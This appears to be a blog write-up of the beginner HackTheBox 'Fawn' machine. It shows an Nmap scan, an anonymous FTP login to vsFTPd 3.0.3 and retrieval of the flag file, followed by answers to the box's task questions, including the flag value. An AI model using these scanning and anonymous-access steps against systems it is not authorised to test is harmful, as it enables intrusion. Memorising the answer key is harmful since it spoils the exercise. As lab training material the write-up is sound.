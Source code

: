 ```yaml
---
title: HackTheBox Fawn Writeup
authors: Samarth
date: 2023-09-11 14:00:00 +0530
categories: [HackTheBox , Starting Point - Tier 0]
tags: [Linux, FTPd, Reconnaissance, Anonymous/Guest Access]
math: true
mermaid: true
---
```


![Fawn-HTB](/assets/images/starting-point/Fawn-HTB/banner.png)

## TL;DR

This writeup is based on the [__Fawn__](https://app.hackthebox.com/starting-point){:target="_blank"} machine, which is an easy-rated Linux box on Hack the Box. I began by scanning the target and found an open FTP port (21) running vsFTPd 3.0.3. The FTP service allowed anonymous login, so I logged in without a password and found a file named `flag.txt` in the directory listing. I downloaded the file, read its contents, and captured the flag.

## Scanning Network

I began by performing an Nmap scan, which revealed open ports 21 , corresponding to FTP. Here are the results from Nmap scan:

```bash
nmap -sC -sV -A -T4 -Pn 10.129.1.14 -oN scan/normal.scan
Starting Nmap 7.94 ( https://nmap.org ) at 2025-02-15 11:00 IST
Nmap scan report for 10.129.1.14
Host is up (0.21s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OS: Unix
```

## Enumeration

`vsFTPd 3.0.3` is an outdated version of the FTP service.

`FTP` (File Transfer Protocol) is a network protocol used to transfer files between a client and a server over a TCP/IP network. FTP allows users to upload, download, and manage files on a remote server. However, since it transmits data in plaintext, it poses security risks, especially with anonymous access, making secure alternatives like SFTP and FTPS more commonly used for sensitive data transfers.

While inspecting the Nmap scan output, I discovered that anonymous FTP login was allowed.

FTP supports both authenticated and anonymous access, where anonymous users log in with the username **anonymous** and typically don’t need a password, although some servers may request an email address.

## Exploitation

I attempted to log into FTP using the `anonymous` user.

```bash
ftp 10.129.1.14
Connected to 10.129.1.14.
220 (vsFTPd 3.0.3)
Name (10.129.1.14:samh4cks): anonymous
331 Please specify the password.
Password: 
230 Login successful.
```

I successfully logged in as the `anonymous` user, so let's read the flag.

```bash
 ftp 10.129.1.14
Connected to 10.129.1.14.
220 (vsFTPd 3.0.3)
Name (10.129.1.14:samh4cks): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||11289|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||44195|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 00:00 (0.14 KiB/s)
ftp> exit
221 Goodbye.
```

```bash
cat flag.txt
035db21c881520061c53e0536e44f815
```

## Tasks

### What does the 3-letter acronym FTP stand for?

```plaintext
File Transfer Protocol (FTP)
```

### Which port does the FTP service listen on usually?

```plaintext
21
```

### FTP sends data in the clear, without any encryption. What acronym is used for a later protocol designed to provide similar functionality to FTP but securely, as an extension of the SSH protocol?

```plaintext
SFTP
```

### What is the command we can use to send an ICMP echo request to test our connection to the target?

```plaintext
ping
```

### From your scans, what version is FTP running on the target?

```plaintext
vsFTPd 3.0.3
```

### From your scans, what OS type is running on the target?

```plaintext
Unix
```

### What is the command we need to run in order to display the 'ftp' client help menu?

```plaintext
ftp -?
```

### What is username that is used over FTP when you want to log in without having an account?

```plaintext
anonymous
```

### What is the response code we get for the FTP message 'Login successful'?

```plaintext
230
```

### There are a couple of commands we can use to list the files and directories available on the FTP server. One is dir. What is the other that is a common way to list files on a Linux system.

```plaintext
ls
```

### What is the command used to download the file we found on the FTP server?

```plaintext
get
```

### Submit root flag

```plaintext
035db21c881520061c53e0536e44f815
```

Thanks for reading this far. If you enjoyed the writeup, do support me [__here__](https://www.buymeacoffee.com/h4xplo1t){:target="_blank"}.

